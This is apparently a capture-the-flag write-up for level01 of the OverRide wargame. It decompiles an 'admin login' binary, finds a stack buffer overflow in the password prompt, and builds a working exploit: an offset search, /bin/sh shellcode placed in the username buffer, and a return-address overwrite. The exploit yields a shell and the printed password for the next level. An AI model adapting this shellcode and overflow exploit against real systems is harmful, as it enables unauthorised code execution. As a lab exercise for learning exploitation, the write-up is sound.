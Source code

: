 So in this level, we can manipulate 2 variables using two fgets.

```c
fgets(&a_user_name, 0x100(256), stdin);
fgets(&var_54, 0x64(100), stdin);
```

Let's start with the first fgets; there is a protection that allows us to write only 256 characters in a_user_name.

```
level01@OverRide:~$ python -c 'print("A" * 256)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....
nope, incorrect username...
```

No exploitable vulnerability here; let's move on to the next one! To proceed to the next step, we need verify_user_name() to return 0.

```c
if (verify_user_name() != 0)
{
    puts("nope, incorrect username...\n");
    eax_1 = 1;
}
else
{
    puts("Enter Password: ");
    fgets(&var_54, 0x64, stdin);
	...
}

int32_t verify_user_name()
{
    int32_t __saved_esi;
    bool c = &__saved_esi < 0x10;
    bool z = &__saved_esi == 0x10;
    puts("verifying username....\n");
    return (strncmp(&a_user_name, "dat_wil", 7));
}
```

Now we know that to move on to the second fgets, we simply need to input 'dat_wil'.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

In the second fgets, we write to var_54, which has a size of 0x40 (64) bytes, but fgets allows us to write 0x64 (100) bytes into it GREAT!

```
Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Now, we'll need to find the offset, grab a shellcode, and the address of a_user_name. The payload will look like print(data_wil + shellcode + '\n' + "A" * offset + addr a_user_name + 7). The + 7 is to jump directly to the shellcode and skip reading dat_wil.

offset:
For the offset, I use https://wiremask.eu/tools/buffer-overflow-pattern-generator to generate a pattern.

```
Breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
0x37634136 = 80

shellcode:
I've retrieved the shellcode from a previous project.
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

a_user_name adr:
```
(gdb) info var
All defined variables:

Non-debugging symbols:
0x08048688  _fp_hw
0x0804868c  _IO_stdin_used
0x08048898  __FRAME_END__
0x08049f14  __CTOR_LIST__
0x08049f14  __init_array_end
0x08049f14  __init_array_start
0x08049f18  __CTOR_END__
0x08049f1c  __DTOR_LIST__
0x08049f20  __DTOR_END__
0x08049f24  __JCR_END__
0x08049f24  __JCR_LIST__
0x08049f28  _DYNAMIC
0x08049ff4  _GLOBAL_OFFSET_TABLE_
0x0804a014  __data_start
0x0804a014  data_start
0x0804a018  __dso_handle
0x0804a020  stdin@@GLIBC_2.0
0x0804a024  completed.6159
0x0804a028  dtor_idx.6161
0x0804a040  a_user_name <----------- adr
```

This gives us 
```
(python -c 'print("dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80\n" + "A" * 80 + "\x47\xa0\x04\x08" )'; cat) | ./level01
```

```
level01@OverRide:~$ (python -c 'print("dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80\n" + "A" * 80 + "\x47\xa0\x04\x08" )'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
